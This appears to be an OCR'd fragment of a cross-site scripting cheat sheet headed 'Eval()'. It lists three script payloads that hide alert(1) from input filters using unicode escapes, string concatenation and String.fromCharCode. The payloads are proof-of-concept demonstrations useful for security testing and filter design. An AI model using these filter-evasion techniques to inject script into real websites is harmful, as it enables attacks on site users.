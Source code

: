 # Eval()

Column: We can also make use of the eval() function in JS to obfuscate some strings so they won't be filtered
Tags: <script>eval('a\u006cert(1)')</script>
<script>eval('al' + 'ert(1)')</script>
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41))</script>